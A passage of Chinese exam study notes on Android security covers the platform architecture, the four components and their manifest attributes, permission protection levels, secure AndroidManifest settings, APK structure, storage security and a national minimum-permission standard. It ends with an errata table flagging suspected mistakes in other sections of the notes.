    A["APPLICATIONS<br/>应用程序层<br/>系统应用 + 第三方应用<br/>Java / Kotlin · 权限声明"] --> B["APPLICATION FRAMEWORK<br/>应用程序框架层<br/>Activity/Service/ContentProvider/BroadcastReceiver<br/>活动管理器 · 包管理器 · 签名校验"]
    B --> C["LIBRARIES<br/>系统运行库层<br/>C/C++ 库：图形渲染 · 数据库 · 多媒体 · Web 浏览"]
    C --> D["LINUX KERNEL<br/>Linux 内核层<br/>Linux 2.6：安全 · 内存 · 进程 · 网络协议栈 · 驱动模型<br/>硬件与软件栈之间的抽象层"]
```

> [!IMPORTANT]
> 自下而上四层：**Linux 内核层 → 系统运行库层 → 应用程序框架层 → 应用程序层**。
> 内核层提供的安全相关能力：**安全性、内存管理、进程管理、网络协议栈、驱动模型**。

---

#### 02. Android 基本组件

##### 📌 四大组件 + Intent

| 组件 | 英文 | 说明 |
| --- | --- | --- |
| **活动** | **Activity** | 在 Android 应用中**负责与用户进行交互的核心组件**，是**用户界面的载体**。每个 Activity 都对应**一个独立的屏幕界面**，用户通过 Activity 完成**点击、输入等操作**，**Activity 之间通过 Intent 进行跳转与数据传递** |
| **服务** | **Service** | **运行在后台、不提供用户界面**的组件，用于执行**长时间的耗时操作**（如**下载文件、播放音乐**）。Service 可在**应用退出后继续运行**，通过与 **Activity 绑定**或**独立启动**的方式，为应用提供**持续的后台服务支持** |
| **广播接收器** | **BroadcastReceiver** | 用于**接收并响应系统或应用发出的广播消息**的组件。它可以监听**系统事件**（如**网络状态变化、电量低提醒**）或**应用自定义事件**，实现**组件间的跨进程通信与消息通知** |
| **内容提供器** | **ContentProvider** | 提供一种**跨应用数据交换的标准机制**，允许**不同应用之间安全地共享数据**。它**封装了数据访问接口**，统一管理数据的**增删改查操作**，是实现**应用间数据共享的核心组件** |
| **意图** | **Intent** | 是一种重要的**消息传递对象**，用于在**不同组件**（如**活动 Activity、服务 Service、广播接收器 BroadcastReceiver** 等）之间进行**通信和交互** |

> Android 四大组件分别为 **Activity、Service、BroadcastReceiver、ContentProvider**。

```mermaid
mindmap
  root((Android 组件))
    四大组件
      Activity 活动
      Service 服务
      BroadcastReceiver 广播接收器
      ContentProvider 内容提供器
    Intent 意图
      组件间通信与交互
      跳转与数据传递
```

---

##### 📌 Activity（活动）

| 项目 | 要点 |
| --- | --- |
| 职责 | 是**负责和用户交互的基础组件**，用来**展示界面**，**接收用户操作** |
| 多屏适配 | 可搭配 **Fragment（片段）** 实现多屏幕适配：**小屏设备下，一个 Activity 展示一个 Fragment，跳转新 Activity 展示另一套 Fragment** |
| 注册要求 | **所有 Activity 都必须在 `AndroidManifest.xml` 清单文件中注册声明** |

**🎚️ 两种声明方式**

**1️⃣ 公共组件声明（对外可访问）**

```xml
<activity
    android:name=".LoginActivity"
    android:label="@string/app_name"
    android:exported="true">  <!-- 设置 exported="true"，允许外部/系统通过 Intent 启动 -->
    <intent-filter>    <!-- 具备 <intent-filter> 意图过滤器 -->
        <action android:name="android.intent.action.MAIN" />      <!-- 标记为程序入口 -->
        <category android:name="android.intent.category.LAUNCHER" />    <!-- 在桌面显示应用图标 -->
    </intent-filter>
</activity>
```

**2️⃣ 私有组件声明（仅本应用内部使用）**

```xml
<activity
    android:name=".OrderActivity"
    android:exported="false"/>   <!-- 设置 android:exported="false"，拒绝外部应用访问 -->
```

| 声明类型 | `android:exported` | 说明 |
| --- | --- | --- |
| 公共组件 | **`true`** | 允许**外部/系统通过 Intent 启动**；具备 `<intent-filter>` 意图过滤器 |
| 私有组件 | **`false`** | **拒绝外部应用访问**，仅本应用内部使用 |

> 入口标记：**`android.intent.action.MAIN`** = 程序入口；**`android.intent.category.LAUNCHER`** = 在桌面显示应用图标。

---

##### 📌 服务（Service）

| 项目 | 要点 |
| --- | --- |
| 定位 | Service 是 **Android 四大组件之一**，用于在**后台执行耗时操作**，**不提供 UI 界面** |
| 生命周期 | 它可在**应用进程被销毁前保持运行**，支持与**其他组件（Activity）进行通信** |

**`<service>` 标签语法**

```xml
<service android:enabled=["true" | "false"]                <!-- 启用或禁用组件 -->
         android:exported=["true" | "false"]               <!-- 服务是否可以由其他应用的组件调用 -->
         android:icon="drawable resource"                  <!-- 指定服务的图标资源 -->
         android:name="string"                             <!-- 指定服务的完全限定名，即服务类的名称 -->
         android:permission="string"                       <!-- 指定其他组件必须具有的权限才能启动或绑定到该服务 -->
         android:process="string" >                        <!-- 指定服务运行的进程名称。如果未指定，服务将在默认的应用进程中运行 -->
    . . . . .
</service>
```

| 属性 | 含义 |
| --- | --- |
| `android:enabled` | **启用或禁用组件** |
| `android:exported` | **服务是否可以由其他应用的组件调用** |
| `android:icon` | 指定服务的**图标资源** |
| `android:name` | 指定服务的**完全限定名**，即**服务类的名称** |
| `android:permission` | 指定**其他组件必须具有的权限**才能**启动或绑定**到该服务 |
| `android:process` | 指定服务运行的**进程名称**。如果未指定，服务将在**默认的应用进程中运行** |

---

##### 📌 内容提供者（Content Providers）

| 项目 | 要点 |
| --- | --- |
| 定位 | **Android 四大组件之一**，用于实现**不同应用之间的数据共享** |
| 机制 | 它**封装了数据访问的细节**，提供**统一的 URI 接口**供其他应用调用 |
| 底层 | 底层通常**基于 SQLite 数据库**实现 |
| 操作 | 支持**增删改查（CRUD）**操作 |
| 地位 | 是**跨应用数据交互的核心机制** |
| 注册要求 | **应用程序想要使用的任何提供者都必须在清单文件中声明** |

**`<provider>` 标签语法**

```xml
<provider android:authorities="list"              <!-- Content Provider 的"地址"，其他应用通过此字符串找到它，
                                                      通常使用应用的包名加类名，以保证全局唯一性 -->
          android:enabled=["true" | "false"]      <!-- 启用或禁用组件 -->
          android:exported=["true" | "false"]     <!-- 表示内容提供器是否可以由其他应用访问 -->
          android:icon="drawable resource"        <!-- 指定内容提供器的图标资源 -->
          android:name="string"                   <!-- 指定内容提供器类的名称 -->
          android:permission="string"             <!-- 指定全局访问权限，任何应用想要访问内容提供器都需要这个权限 -->
          android:process="string"                <!-- 指定内容提供器运行的进程名称 -->
          android:readPermission="string"         <!-- 指定读取提供器数据的权限 -->
          android:syncable=["true" | "false"]     <!-- 表示内容提供器是否支持数据同步 -->
          android:writePermission="string" >      <!-- 指定写入提供器数据的权限 -->
    . . . . . . .
</provider>
```

| 属性 | 含义 |
| --- | --- |
| `android:authorities` | Content Provider 的**"地址"**，其他应用通过此字符串找到它，**通常使用应用的包名加类名，以保证全局唯一性** |
| `android:enabled` | 启用或禁用组件 |
| `android:exported` | 表示内容提供器**是否可以由其他应用访问** |
| `android:icon` | 指定内容提供器的图标资源 |
| `android:name` | 指定内容提供器类的名称 |
| `android:permission` | 指定**全局访问权限**，任何应用想要访问内容提供器都需要这个权限 |
| `android:process` | 指定内容提供器运行的进程名称 |
| `android:readPermission` | 指定**读取**提供器数据的权限 |
| `android:syncable` | 表示内容提供器是否**支持数据同步** |
| `android:writePermission` | 指定**写入**提供器数据的权限 |

---

##### 📌 广播接收器（BroadcastReceiver）

| 项目 | 要点 |
| --- | --- |
| 定位 | **四大组件之一**，用于**监听并响应系统或应用发出的广播事件**（如**网络状态变化、开机完成、短信接收**等） |
| 本质 | 它本质上是一个**全局的监听器**，**不占用独立的界面**，**仅负责接收广播并做出相应处理** |
| 注册 | 应用程序可以在**清单文件中声明接收器** |

**`<receiver>` 标签语法**

```xml
<receiver android:enabled=["true" | "false"]    <!-- 启用或禁用组件 -->
          android:exported=["true" | "false"]   <!-- 广播接收器是否可以接收来自其他应用的广播 -->
          android:icon="drawable resource"      <!-- 指定广播接收器的图标资源 -->
          android:label="string resource"       <!-- 指定广播接收器的用户可见标签 -->
          android:name="string"                 <!-- 指定广播接收器类的名称 -->
          android:permission="string"           <!-- 指定发送到广播接收器的广播必须具有的权限。
                                                     如果指定了权限，则只有拥有该权限的应用可以发送广播给这个接收器 -->
          android:process="string" >            <!-- 指定广播接收器运行的进程名称。
                                                     如果未指定，则默认在应用的主进程中运行 -->
    . . .
</receiver>
```

| 属性 | 含义 |
| --- | --- |
| `android:enabled` | 启用或禁用组件 |
| `android:exported` | 广播接收器**是否可以接收来自其他应用的广播** |
| `android:icon` | 指定广播接收器的图标资源 |
| `android:label` | 指定广播接收器的**用户可见标签** |
| `android:name` | 指定广播接收器类的名称 |
| `android:permission` | 指定**发送到广播接收器的广播必须具有的权限**。如果指定了权限，则**只有拥有该权限的应用可以发送广播给这个接收器** |
| `android:process` | 指定广播接收器运行的进程名称。**如果未指定，则默认在应用的主进程中运行** |

> [!IMPORTANT]
> 四大组件清单标签属性**公共三件套**：**`android:name`（类名）、`android:enabled`（启用）、`android:exported`（是否对外暴露）**。
> - `<service>` 独有：`android:permission`（启动/绑定所需权限）、`android:process`
> - `<provider>` 独有：`android:authorities`（唯一地址）、`android:readPermission`、`android:writePermission`、`android:syncable`
> - `<receiver>` 独有：`android:label`、`android:permission`（**发送方**必须具备的权限）

---

#### 03. Android 权限机制

##### 📌 授权模型演进

> Android 权限机制经历了从「**安装时一次性授权**」到「**运行时按需授权**」的**重大演进**，这一转变**彻底重构了应用权限的管理逻辑**，**赋予用户对隐私和设备控制权的绝对主导权**。

**🎚️ 两种授权模型对比**

| 模型 | 版本 | 机制 | 弊端 / 优势 |
| --- | --- | --- | --- |
| **安装时授权模型** | **Android < 6.0** | 用户安装应用时，系统**列出所有声明权限**，必须**一次性同意才能完成安装**，**拒绝则中止安装**。用户**无法单独撤销权限**，除非**卸载应用** | **弊端**：**权限过度授予，用户被动接受**，存在**较高隐私泄露风险** |
| **运行时授权模型** | **Android ≥ 6.0** | 应用**仍需声明权限**，但用户**无需安装时授予**。仅在**首次使用「危险权限」功能时**，应用**运行时弹出对话框请求授权** | **优势**：用户拥有**完全控制权**，可**随时授予或撤销**，实现**最小权限原则**，**提升安全性** |

```mermaid
flowchart LR
    A["Android 6.0 以下<br/>安装时授权"] -->|"演进"| B["Android 6.0 及以上<br/>运行时授权"]
    A --> C["一次性全部同意<br/>拒绝则中止安装<br/>无法单独撤销"]
    B --> D["仅危险权限<br/>首次使用时弹窗<br/>可随时授予/撤销"]
```

---

##### 📌 权限使用的两个环节

**01 / 静态声明：Manifest 配置**

| 项目 | 要点 |
| --- | --- |
| 要求 | **所有应用所需的权限必须在 `AndroidManifest.xml` 中显式声明** |
| 意义 | 这是**系统识别应用权限需求的基础**，也是**后续动态申请的前提** |

```xml
<!-- 声明读取联系人权限-->
<uses-permission android:name="android.permission.READ_CONTACTS"></uses-permission>
<!-- 声明相机权限-->
<uses-permission android:name="android.permission.CAMERA"></uses-permission>
```

**02 / 动态检查：运行时校验**

| 项目 | 要点 |
| --- | --- |
| 要求 | 针对**危险权限**，必须在**代码中主动检查**。若未授权，需调用 **`requestPermissions()`** 向用户发起申请，确保功能合法执行 |

```java
// 检查权限状态
int perm = ContextCompat.checkSelfPermission(context, Manifest.permission.CAMERA);
if (perm != PackageManager.PERMISSION_GRANTED) {
    // 发起权限请求...
}
```

```mermaid
flowchart TD
    A["静态声明<br/>Manifest 中 uses-permission"] --> B["动态检查<br/>checkSelfPermission"]
    B --> C{"是否已授权<br/>PERMISSION_GRANTED?"}
    C -->|"是"| D["正常执行功能"]
    C -->|"否"| E["requestPermissions()<br/>弹窗申请"]
    E --> F["用户允许 → 执行"]
    E --> G["用户拒绝 → 功能不可用"]
```

---

##### 📌 权限保护级别（Protection Level）

> Android 系统为**每个权限定义了严格的保护级别（Protection Level）**，这决定了**系统如何处理应用的授权请求**。不同级别的权限对应着**不同的安全风险与授权规则**，是**理解应用权限管控的核心基础**。

**🎚️ 四种保护级别**

| 级别 | 含义 | 行为 | 示例 / 场景 / 状态 |
| --- | --- | --- | --- |
| **01. Normal 正常权限** | **风险较低**，通常**只涉及应用自身操作**，**不会**对用户隐私或设备安全造成**重大威胁** | 应用**安装时自动授予**，**无需用户明确同意** | `android.permission.INTERNET`（访问网络）、`android.permission.SET_ALARM`（设置闹钟） |
| **02. Dangerous 危险权限** | 涉及**访问用户敏感数据**（如联系人、位置）或**对设备有重大影响的操作** | **需在运行时明确请求**，用户需**点击「允许」**才能授予 | `android.permission.READ_CONTACTS`（读取联系人）、`android.permission.CAMERA`（使用相机） |
| **03. Signature 签名权限** | 用于**控制同一开发者发布的不同应用之间的交互** | **仅授予与声明权限应用使用相同数字证书签名的应用** | **场景**：同一开发者的多个应用间共享功能或数据 |
| **04. SignatureOrSystem 签名或系统权限（已废弃）** | 结合了 **signature** 和**系统位置**的检查 | 授予**签名匹配**或**安装在系统分区**的应用 | **状态**：**自 Android 8.0 起已废弃**，建议使用 **`signature\|privileged`** 替代 |

```mermaid
flowchart TD
    A["保护级别 Protection Level"] --> B["Normal 正常<br/>安装即授予<br/>风险低"]
    A --> C["Dangerous 危险<br/>运行时弹窗<br/>涉及隐私/敏感数据"]
    A --> D["Signature 签名<br/>同签名证书才授予<br/>同开发者多应用互通"]
    A --> E["SignatureOrSystem<br/>签名匹配或系统分区<br/>Android 8.0 起废弃"]
```

> [!IMPORTANT]
> 必背：**Normal 自动授予 / Dangerous 运行时申请 / Signature 同签名 / SignatureOrSystem 已废弃（Android 8.0+ 改用 `signature|privileged`）**。

---

##### 📌 两种权限声明方式

> 有**两种方法**可以将权限应用于整个应用程序。**在第一种情况下**，应用程序**声明应用程序正常运行所需的权限**；**在第二种情况下**，应用程序可以**声明尝试与此应用程序交互的其他应用程序应具有的权限**。**这两种类型的权限都必须在清单文件中声明**。

| 方式 | 标签 | 作用 | 示例 |
| --- | --- | --- | --- |
| **申请权限** | **`<uses-permission>`** | 声明**本 APP 想要获得的权限**（**权限消费者**） | `<uses-permission android:name="android.permission.READ_SMS"/>` |
| **定义权限** | **`<permission>`** | **定义新权限规则**，供**自身或其他应用申请**（**权限生产者**） | `<permission android:name="com.example.MY_PERMISSION" android:protectionLevel="signature"/>` |

> 示例注释：`//获得访问用户短信内的权限`
> 示例注释：`//其他APP想要拿到权限，必须和定义该权限的App使用完全相同的签名证书`

**📌 自定义权限的三条安全建议**

| 建议 | 说明 |
| --- | --- |
| **避免不必要的自定义** | **仅在业务强关联时使用自定义权限**，**优先使用系统标准权限**，从**源头规避劫持风险** |
| **设置高保护级别** | 必须使用时，**强制设置为 `signature` 级别**，确保**仅同签名的可信应用可申请** |
| **严格校验调用者** | 接收 Intent 时，通过校验**调用方 UID、应用签名**等维度，**防止权限被非法滥用** |

---

##### 📌 应用程序策略使用场景示例

**① 申请权限（`<uses-permission>`）**

> 安卓平台上的应用程序必须**声明它打算使用哪些资源**，以便应用程序能够正常运行。在清单文件中通过使用 **`<uses-permission>`** 标签声明。

以下代码段展示了 **opencalculator（计算器）** 的清单文件的示例：

```xml
<uses-permission android:name="android.permission.VIBRATE"/>
    <!-- 震动权限，按键震动反馈-->
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>
    <!-- 悬浮窗权限，允许应用浮在其他应用上层-->
<uses-permission android:name="android.permission.USE_FULL_SCREEN_INTENT"/>
    <!-- 全屏通知意图权限，可弹出全屏通知-->
```

**② 定义权限（`<permission>`）**

> 安卓平台上的应用程序可以**创建自己的安全规则**，以便**限制其他应用访问其特定组件或数据**。在清单文件中通过使用 **`<permission>`** 标签声明。

以下代码段展示了**微信**的清单文件的示例：

```xml
<permission android:name="com.tencent.mm.app.provider.ShareableChatRecords.READ_BY_CONSENT"
            android:protectionLevel="normal"/>
    <!--分享聊天记录读取权限（普通权限，自动授予）-->
<permission android:name="com.tencent.mm.ext.permission.SPORT"/>
    <!--外部扩展运动数据权限（未指定保护级别，默认normal）-->
<permission android:name="com.tencent.mm.permission.EXT_OPEN_APPBRAND_LAUNCHER_UI"
            android:protectionLevel="signature"/>
    <!--小程序外部打开启动页权限（同签名可用）-->
```

| 权限名 | 保护级别 | 说明 |
| --- | --- | --- |
| `com.tencent.mm.app.provider.ShareableChatRecords.READ_BY_CONSENT` | **`normal`** | 分享聊天记录读取权限（**普通权限，自动授予**） |
| `com.tencent.mm.ext.permission.SPORT` | 未指定（**默认 `normal`**） | 外部扩展运动数据权限 |
| `com.tencent.mm.permission.EXT_OPEN_APPBRAND_LAUNCHER_UI` | **`signature`** | 小程序外部打开启动页权限（**同签名可用**） |

---

##### 📌 扩展 Android 权限

| 项目 | 要点 |
| --- | --- |
| 机制 | 开发者可以**通过添加自己的权限来扩展权限系统** |
| 展示 | 这些权限将在**用户下载应用时向用户展示** |
| 粒度 | 开发者可以**选择仅添加一个新权限或整个权限树** |
| 声明方式 | 在**清单文件中声明新权限**；要添加新权限，应用程序可以使用 **`<permission>`** 标签声明 |

**`<permission>` 标签语法**

```xml
<permission android:name="string"                                  <!-- 正在声明的新的权限名称 -->
            android:description="string resource"                  <!-- 详细描述了正在声明的新的权限 -->
            android:icon="drawable resource"                       <!-- 权限图标 -->
            android:label="string resource"                        <!-- 在安装时向用户显示的标签 -->
            android:permissionGroup="string"                       <!-- 为权限分配一个预先存在的用户定义的组或新组。
                                                                        如果没有指定名称，权限不属于任何组 -->
            android:protectionLevel=["normal" | "dangerous" | "signature" | "signatureOrSystem"] />
                                                                   <!-- 新权限的保护级别 -->
```

| 属性 | 含义 |
| --- | --- |
| `android:name` | 正在声明的**新的权限名称** |
| `android:description` | **详细描述**了正在声明的新的权限 |
| `android:icon` | **权限图标** |
| `android:label` | 在**安装时向用户显示的标签** |
| `android:permissionGroup` | 为权限分配一个**预先存在的用户定义的组或新组**。**如果没有指定名称，权限不属于任何组** |
| `android:protectionLevel` | 新权限的**保护级别**：**`normal` \| `dangerous` \| `signature` \| `signatureOrSystem`** |

**📌 新权限示例**

```xml
<permission android:name="com.example.android.book.READ_BOOKSTORE"
            android:description="@string/perm_read_bookstore"
            android:label="Read access to books database"
            android:permissionGroup="BOOKSTORE_PERMS"
            android:protectionLevel="dangerous"/>
```

> [!TIP]
> 自定义权限命名规范：**使用包名前缀保证全局唯一**，如 `com.example.android.book.READ_BOOKSTORE`。

---

#### 04. 应用程序策略文件

##### 📌 AndroidManifest.xml 文件

| 项目 | 要点 |
| --- | --- |
| 必要性 | **所有安卓应用程序都需要有一个清单文件** |
| 命名与位置 | 这个文件**必须命名为 `AndroidManifest.xml`**，并且**必须放在应用程序的根目录中** |
| 地位 | 这个清单文件是**应用程序的策略文件** |
| 声明内容 | 它声明了**应用程序组件、它们的可见性、访问规则、库、特性以及应用程序运行的最低安卓版本** |
| 系统用途 | 安卓系统使用**清单文件进行组件解析** |
| 重要性 | 因此，`AndroidManifest.xml` 文件是**整个应用程序中最重要的文件**，定义时需要特别小心，以**加强应用程序的安全性** |
| 可扩展性 | 清单文件是**不可扩展的**，因此应用程序**不能添加自己的属性或标签** |

**📌 重要标签列表**

| 标签 | 功能描述 | 安全意义 |
| --- | --- | --- |
| **`<uses-permission>`** | **申请权限**。应用需要什么权限就问系统要什么 | **遵循最小权限原则**。申请**不合理的权限**（如**计算器要短信权限**）是**安全审计的重点** |
| **`<permission>`** | **定义自定义权限**。创建自己应用的权限规则 | **`protectionLevel` 属性是核心**，尤其是 **`signature` 级别**用于保护**同一开发者的应用间通信** |
| **`<uses-sdk>`** | 指定应用支持的**最低、目标编译版本** | **低版本系统存在已知安全漏洞**。设置**较高的 `minSdkVersion`** 可以确保应用运行在**更安全的系统**上 |
| **`<application>`** | **应用本身的声明容器** | 其 **`android:permission` 属性为所有组件设置默认访问权限**，是**全局安全门卫** |
| **`<activity>`** | 声明一个**活动界面** | **`android:exported` 属性是重点**，决定该界面**能否被其他应用启动**；**`android:permission`** 设置启动权限 |
| **`<service>`** | 声明一个**后台服务** | 同上，**`android:exported` 和 `android:permission` 是防止服务被恶意调用的关键** |
| **`<provider>`** | 声明一个**内容提供者** | **数据共享的核心漏洞点**。除了 `exported`，**`android:readPermission` / `android:writePermission` 实现精细化控制** |
| **`<receiver>`** | 声明一个**广播接收器** | **`android:permission` 属性用于验证广播发送方的权限**，防止**接收恶意广播** |

```mermaid
mindmap
  root((AndroidManifest.xml))
    权限相关
      uses-permission 申请权限
      permission 定义权限
    版本
      uses-sdk 最低/目标编译版本
    容器
      application 全局安全门卫
    四大组件
      activity
      service
      provider
      receiver
    特性
      不可扩展
      系统据此做组件解析
```

---

##### 📌 `<application>` 常用标签定义

| 属性 | 含义与作用 | 推荐设置 / 注意 |
| --- | --- | --- |
| **`android:name`** | 指定**自定义的 Application 类**，用于**全局初始化** | **非必需**，但项目常用 |
| **`android:icon`** | **应用图标**，显示在**桌面和应用管理**中 | **必需**。体现品牌形象 |
| **`android:label`** | **应用名称**，显示在**桌面和应用管理**中 | **必需** |
| **`android:theme`** | 为**所有 Activity 设置默认样式主题** | 通常需要设置，保证 UI 统一 |
| **`android:permission`** | **全局权限门槛**。任何外部应用想与本应用**任何组件交互**，都**必须有此权限** | **安全重点**。**组件权限可覆盖它** |
| **`android:debuggable`** | 是否**允许调试** | **安全铁律：发布版必须为 `false`**，设为 `true` 是**严重漏洞** |
| **`android:allowBackup`** | 是否**允许数据备份** | **默认为 `true`**。包含**敏感数据**的应用应设为 **`false`**，防止数据**通过备份泄露** |
| **`android:process`** | 设置**默认进程名**。可为组件创建**独立进程** | 默认为包名。设为 **`:remote`** 可让组件运行在**独立私有进程**，**增强隔离性** |

> [!IMPORTANT]
> `<application>` 安全三铁律：
> 1. **`android:debuggable` 发布版必须为 `false`**
> 2. **`android:allowBackup` 涉敏应用设为 `false`**
> 3. **`android:permission` 设全局权限门槛（组件可覆盖）**

---

#### 05. 目录、最小权限

##### 📌 APK 结构

> **APK 是 Android 应用的安装包格式，本质为 ZIP 压缩文件**，封装了应用运行所需的**代码、资源、配置清单及签名信息**，是**应用分发与执行的基础载体**。

| 目录 / 文件 | 说明 |
| --- | --- |
| **`META-INF` / 签名目录** | 包含**签名文件**（如 **`MANIFEST.MF`**），用于**验证 APK 的完整性与开发者身份**，是**应用安全的第一道防线** |
| **`res` / 资源目录** | 存放**编译后的可视化资源**，如**布局 XML、图片、字符串与样式**，供系统直接调用 |
| **`assets` / 原始资源** | 存储**未经编译的原始文件**（如**音视频、脚本**），需通过 **`AssetManager`** 以**流形式读取**，**支持自定义结构** |
| **`classes.dex` / 核心代码** | 包含**编译后的 Dalvik/ART 字节码**，是应用的**逻辑核心**，也是**逆向分析与代码保护的重点对象** |
| **`AndroidManifest.xml` / 配置中枢** | 应用的**「身份证」**，声明**组件、权限、版本、启动入口**等关键信息，系统**据此识别与运行应用** |
| **`resources.arsc` / 资源索引** | **二进制资源索引表**，记录**资源 ID、类型与位置**，实现资源的**快速查找与加载**，**提升运行效率** |

```mermaid
flowchart TD
    A["APK（本质 ZIP）"] --> B["META-INF<br/>签名文件 · 完整性校验"]
    A --> C["res<br/>编译后可视化资源"]
    A --> D["assets<br/>未编译原始文件"]
    A --> E["classes.dex<br/>Dalvik/ART 字节码 · 逆向重点"]
    A --> F["AndroidManifest.xml<br/>身份证 · 组件/权限/入口"]
    A --> G["resources.arsc<br/>二进制资源索引表"]
```

**📌 APK 三大安全要点**

| 要点 | 说明 |
| --- | --- |
| **签名校验** | **保障应用未被篡改与身份合法**，**防止恶意篡改**，是应用**上架与安装的安全基石** |
| **权限管控** | **声明敏感权限，保护用户隐私**，**遵循最小权限原则**，**明确告知用户应用行为边界** |
| **代码防护** | **混淆加固，抵御逆向分析**，**保护核心逻辑不被破解**，**维护应用知识产权安全** |

---

##### 📌 Android 数据存储方案（5 种）

> Android 提供了**多样化的数据存储方案**，**不同方案的安全性差异显著**。理解并遵循**存储安全规范**，是保障**用户数据隐私与应用安全**的基础。

**🎚️ 五种存储方案与安全关键**

| 序号 | 方案 | 说明 | ⚠ 安全关键 |
| --- | --- | --- | --- |
| **01** | **文件存储** | **内部存储**为应用**私有目录**，**其他应用无法访问**；**外部存储**为**公共空间**，**所有应用均可读取** | **敏感数据必须存入内部存储**；**外部存储文件需加密处理** |
| **02** | **SharedPreferences** | **轻量级键值对存储**，默认位于**内部存储**，数据以 **XML 格式明文保存**，适合存储**配置信息** | **严禁存储明文密码等敏感信息**，必须**对数据进行加密后再写入** |
| **03** | **SQLite 数据库** | **轻量级关系型数据库**，文件位于**应用私有目录**，**默认仅本应用可访问**，适合存储**结构化数据** | **使用参数化查询防注入**；**核心数据建议加密** |
| **04** | **ContentProvider** | **跨应用数据共享的标准接口**，封装了数据访问逻辑，提供**统一的增删改查方法** | **设置正确权限防泄露**；**避免 SQL 注入** |
| **05** | **网络存储** | 将数据存储在**远程服务器**，实现数据的**云端同步与多端共享**，是**现代应用的核心架构** | **强制使用 HTTPS 协议**：**严格校验 SSL 证书** |

```mermaid
mindmap
  root((Android 数据存储))
    文件存储
      内部私有 / 外部公共
      敏感数据存内部 · 外部需加密
    SharedPreferences
      轻量键值对 · XML 明文
      禁存明文密码
    SQLite
      私有目录 · 结构化
      参数化查询防注入
    ContentProvider
      跨应用共享
      正确权限防泄露
    网络存储
      云端同步
      强制 HTTPS · 校验证书
```

> [!IMPORTANT]
> 存储安全必背：
> - **敏感数据 → 内部存储**；外部存储**必须加密**。
> - **SharedPreferences 是明文 XML** → **严禁明文密码**。
> - **SQLite** → **参数化查询防注入**。
> - **网络存储** → **HTTPS + 严格校验 SSL 证书**（防中间人）。

---

##### 📌 最小必要权限规范（App 收集个人信息）

| 项目 | 要点 |
| --- | --- |
| 背景 | 为保护**个人信息安全**，规范 **App 的应用**，国家有关部门已发布了**《信息安全技术 移动互联网应用程序(App) 收集个人信息基本规范（草案）》** |
| 内容 | 其中，针对 **Android 6.0 及以上**的**可收集个人信息的权限**，给出了**服务类型的最小必要权限参考范围** |
| 对应正式文件 | 该规范对应的正式文件是国家标准 **GB/T 41391-2022《信息安全技术 移动互联网应用程序（App）收集个人信息基本要求》** |

**📌 《信息安全技术 移动互联网应用程序(App) 收集个人信息基本规范（草案）》具体要求**

| 序号 | 服务类型 | 最小必要权限 |
| --- | --- | --- |
| **a** | **地图导航** | **位置权限、存储权限** |
| **b** | **网络约车** | **位置权限、拨打电话权限** |
| **c** | **即时通讯** | **存储权限** |
| **d** | **博客论坛** | **存储权限** |
| **e** | **网络支付** | **存储权限** |
| **f** | **新闻资讯** | **无** |
| **g** | **网上购物** | **无** |
| **h** | **短视频** | **存储权限** |
| **i** | **快递配送** | **无** |
| **j** | **餐饮外卖** | **位置权限、拨打电话权限** |
| **k** | **交通票务** | **无** |
| **l** | **婚恋相亲** | **存储权限** |
| **m** | **求职招聘** | **存储权限** |
| **n** | **金融借贷** | **存储权限** |
| **o** | **房屋租售** | **存储权限** |
| **p** | **二手车交易** | **存储权限** |
| **q** | **运动健身** | **位置权限、传感器权限** |
| **r** | **问诊挂号** | **存储权限** |
| **s** | **浏览器** | **无** |
| **t** | **输入法** | **无** |
| **u** | **安全管理** | **存储权限、获取应用账户、读取电话状态权限、短信权限** |

```mermaid
flowchart TD
    A["最小必要权限"] --> B["无权限类<br/>新闻资讯 / 网上购物 / 快递配送<br/>交通票务 / 浏览器 / 输入法"]
    A --> C["仅存储权限<br/>即时通讯 / 博客论坛 / 网络支付<br/>短视频 / 婚恋相亲 / 求职招聘<br/>金融借贷 / 房屋租售 / 二手车交易 / 问诊挂号"]
    A --> D["位置 + 其他<br/>地图导航（+存储）<br/>网络约车（+拨打电话）<br/>餐饮外卖（+拨打电话）<br/>运动健身（+传感器）"]
    A --> E["权限最多<br/>安全管理（存储 + 获取应用账户<br/>+ 读取电话状态 + 短信）"]
```

> [!TIP]
> 速记：
> - **无需任何权限（"无"）共 6 类**：**新闻资讯、网上购物、快递配送、交通票务、浏览器、输入法**。
> - **权限最多的是「安全管理」**：存储 + 获取应用账户 + 读取电话状态 + 短信。
> - **带「位置权限」的 4 类**：地图导航、网络约车、餐饮外卖、运动健身（其中运动健身是**位置 + 传感器**）。
> - **带「拨打电话权限」的 2 类**：网络约车、餐饮外卖。

> [!IMPORTANT]
> 标准号必背：**GB/T 41391-2022**《信息安全技术 移动互联网应用程序（App）收集个人信息基本要求》；草案名：《信息安全技术 移动互联网应用程序(App) 收集个人信息基本规范（草案）》，适用 **Android 6.0 及以上**。

---

### ⚠️ 疑点（原文疑似错误，均**原样保留**，此处仅标注）

| # | 位置（Page） | 原文写法 | 疑点与说明（仅供参考，正文未改动） |
| --- | --- | --- | --- |
| 1 | 834 vs 860 | **tcpdump 协议关键字**：第一轮写「如 `ip`、`arp`、`rarp`、`udp`」，第二轮写「`ip`、`arp`、`rarp`、`tcp`、`udp`」 | 第一轮**遗漏 `tcp`**。正文中两轮均已保留，实际应为含 **`tcp`** 的完整列表 |
| 2 | 842 vs 866 | 数据链路层「筛选 **mac 地址**为 `04:f9:38:ad:13:26` 的数据包」给出的表达式：第一轮为 **`eth.src == 04:f9:38:ad:13:26`** | 该条与「源 mac 地址」一条**完全重复**；第二轮已修正为 **`eth.addr == 04:f9:38:ad:13:26`**。判断"任意 mac（源或目的）"应用 **`eth.addr`**，**`eth.src`** 仅匹配源 mac |
| 3 | 847 / 871 | 小节标题为 **SWATCH**，正文却写「**WATCH** 检测日志文件有两种方法：」，且「从日志文件**文件**开头扫描」重复"文件"二字 | 应为 **SWATCH**；"日志文件文件"应为"日志文件"。正文按原文保留 |
| 4 | 847 / 871 | `-r` 参数说明写「指定**重起**的时间」 | "重起"应为"**重启**"（restart） |
| 5 | 833 vs 859 | LOphtCrack 攻击方式：第一轮「**词典攻击、组合攻击、强行攻击**」，第二轮「**字典攻击、暴力攻击、混合攻击**」 | 两轮译名/表述不一致（"词典"↔"字典"，"强行"↔"暴力"，"组合"↔"混合"）。正文两轮均保留 |
